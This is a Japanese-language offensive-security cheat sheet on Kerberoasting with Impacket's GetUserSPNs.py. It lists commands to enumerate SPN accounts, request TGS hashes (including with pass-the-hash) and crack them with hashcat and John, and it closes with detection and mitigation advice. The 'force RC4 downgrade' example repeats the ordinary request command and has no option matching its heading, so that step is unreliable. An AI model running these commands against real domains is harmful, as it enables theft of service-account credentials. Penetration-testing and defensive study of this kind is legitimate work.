



## TL;DR

`GetUserSPNs.py` は Impacket のスクリプトで、**Kerberoasting** を実行するツールです。SPN が登録されているアカウントに対して Kerberos サービスチケット (TGS) をリクエストし、得られたハッシュをオフラインでクラックしてサービスアカウントのパスワードを復元します。

AS-REP Roasting (`GetNPUsers.py`) とは異なり、Kerberoasting ではサービスチケットをリクエストするために**常に有効なドメイン資格情報が必要**です。ただし、任意のドメインアカウントが SPN を持てる上、多くのサービスアカウントは弱いパスワードをローテーションせずに使い続けているため、攻撃対象の範囲はより広くなります。

---

## GetUserSPNs.py でできること

| 機能 | 詳細 |
|---|---|
| SPN アカウントの列挙 | `servicePrincipalName` が設定された全ユーザーアカウントを LDAP クエリで取得 |
| 各 SPN への TGS リクエスト | 認証済みユーザーの TGT を使って KDC からサービスチケットをリクエスト |
| クラック可能なハッシュの出力 | hashcat / John the Ripper 形式の `$krb5tgs$` ハッシュを返す |
| ファイルへの出力保存 | `-outputfile <file>` で hashcat に直接渡せる形式で保存 |
| 特定ユーザーのみ対象 | `-request-user <username>` で単一アカウントを狙い撃ち |
| 複数認証方式に対応 | パスワード・NTLM ハッシュ (Pass-the-Hash)・Kerberos チケット |
| リクエストなしでの SPN 一覧表示 | `-request` を省略すれば SPN の一覧表示のみ実行 |

---

## GetUserSPNs.py でできないこと

| 制限 | 理由 |
|---|---|
| 有効なドメイン資格情報なしでの動作 | LDAP と KDC の両方への認証が必要 — 匿名モードなし |
| ハッシュのクラック | オフラインクラックは別途実施が必要 (hashcat / john) |
| SPN のないアカウントを対象にする | SPN なし = サービスチケットなし = ハッシュなし |
| コンピューターアカウントへの有効な攻撃 | マシンアカウントのパスワードは 120 文字のランダム文字列で自動ローテーション |
| AES 専用強制の回避 | RC4 が無効化されている場合は `etype 18` (AES256) ハッシュのみ返される — クラックが大幅に遅くなる |
| クラック可能な結果の保証 | 長く複雑なパスワードや無作為生成されたパスワードは計算量的に解読不可 |
| 単独での権限昇格 | クラックしたパスワードはラテラルムーブメントや追加の攻撃に使う必要がある |

---

## 通常の TGS リクエスト vs Kerberoasting

### 通常の Kerberos サービスチケットフロー



### Kerberoasting — TGS を抽出してクラックする



> KDC はリクエスト者が実際にそのサービスへのアクセス権を持つべきかどうかを確認しません。認証済みのドメインユーザーであれば誰でも任意の SPN の TGS をリクエストできます — これは Kerberos の設計上の仕様です。

---

## 攻撃全体のフロー



---

## 使いどころ

### SPN の列挙のみ（ハッシュリクエストなし）

```bash
# SPN アカウントの一覧表示 — チケットはリクエストしない
GetUserSPNs.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP>

# 例
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100
```

### 全 TGS ハッシュのリクエスト

```bash
# 全 SPN アカウントのハッシュをリクエスト
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### 特定アカウントのみを対象にする

```bash
# 特定のサービスアカウント 1 件のみを Roast する
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request-user svc_mssql
```

### Pass-the-Hash 認証

```bash
# 平文パスワードの代わりに NTLM ハッシュを使用
GetUserSPNs.py corp.local/jsmith -hashes :<NTLM_HASH> -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### RC4 ダウングレードの強制 (etype 23)

```bash
# AES が利用可能でも RC4 チケットをリクエストする（クラックが容易）
# 注意: DC で RC4 が明示的に無効化されている場合は失敗することがある
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

---

## ハッシュのクラック

```bash
# RC4 (etype 23) — hashcat モード 13100
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt

# ルール付き
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# AES256 (etype 18) — hashcat モード 19700（大幅に遅い）
hashcat -m 19700 hashes.txt /usr/share/wordlists/rockyou.txt

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**ハッシュ形式リファレンス:**

```
$krb5tgs$23$*svc_mssql$CORP.LOCAL$...*<hash>
          ^^ etype 23 = RC4-HMAC（一般的、クラックが速い）

$krb5tgs$18$*svc_mssql$CORP.LOCAL$...*<hash>
          ^^ etype 18 = AES256（クラックが難しい）
```

---

## 主なオプション

| フラグ | 説明 |
|---|---|
| `-request` | TGS チケットをリクエストしてハッシュを出力 |
| `-request-user <user>` | 特定の単一ユーザーのみを対象にする |
| `-outputfile <file>` | ハッシュをファイルに保存 |
| `-dc-ip <ip>` | ドメインコントローラーの IP |
| `-hashes <LM:NT>` | 認証に NTLM ハッシュを使用 |
| `-no-preauth <user>` | 事前認証なしユーザーを使用（AS-REP + TGS の組み合わせ） |

---

## Kerberoastable なアカウントの特定

### PowerShell（ドメイン参加済みマシン上）

```powershell
# SPN が設定された全ユーザーアカウントを検索（コンピューターアカウントを除外）
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName |
    Select-Object Name, SamAccountName, ServicePrincipalName
```

### LDAP フィルター（GetUserSPNs.py が内部で使用するもの）

```
(&(objectClass=user)(servicePrincipalName=*)(!(objectClass=computer))(!(userAccountControl:1.2.840.113556.1.4.803:=2)))
```

---

## GetUserSPNs.py vs GetNPUsers.py

| | GetUserSPNs.py (Kerberoasting) | GetNPUsers.py (AS-REP Roasting) |
|---|---|---|
| **ドメイン資格情報の要否** | 必要 — 常に | 不要 — ユーザーリストのみで動作 |
| **対象アカウント** | SPN を持つアカウント | 事前認証が無効なアカウント |
| **ハッシュ種別** | `$krb5tgs$` | `$krb5asrep$` |
| **Hashcat モード** | 13100 (RC4) / 19700 (AES) | 18200 |
| **攻撃対象の範囲** | 広い — 多くのサービスが SPN を持つ | 狭い — 設定ミスが必要 |
| **資格情報要件** | 任意の有効なドメインユーザー | なし（ユーザーリストがあれば） |

---

## 検知と防御

### Blue Team の指標

| イベント ID | ソース | 注目すべき内容 |
|---|---|---|
| 4769 | Security | 暗号化タイプ 0x17 (RC4) での TGS-REQ — 現代の環境では異常 |
| 4769 | Security | 短時間に単一アカウントから大量の TGS リクエスト |

単一ユーザーが短時間に多数の異なる SPN の TGS チケットをリクエストしているのは強力なシグナルです。

### 緩和策

```powershell
# SPN が設定されているアカウントの監査
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName, PasswordLastSet |
    Select-Object Name, SamAccountName, PasswordLastSet, ServicePrincipalName

# サービスアカウントのパスワードを長くランダムにする（25 文字以上）
# Group Managed Service Accounts (gMSA) を使う — パスワードは自動ローテーション
New-ADServiceAccount -Name gMSA_MSSQL -DNSHostName db.corp.local -PrincipalsAllowedToRetrieveManagedPassword "Domain Computers"
```

- **Group Managed Service Accounts (gMSA)** を使用する — 120 文字のランダムな自動ローテーションパスワードにより、クラックを事実上不可能にする
- **RC4 を無効化**（AES のみを強制）し、クラックが難しい etype 18 ハッシュのみを使用させる
- Kerberoasting パターンに対する **Microsoft Defender for Identity (MDI)** のアラートを設定する
- 不要な SPN を定期的に監査・削除する

---

## 参考資料

- [Impacket — GetUserSPNs.py ソース](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)
- [harmj0y — Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [Microsoft — Service Principal Names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
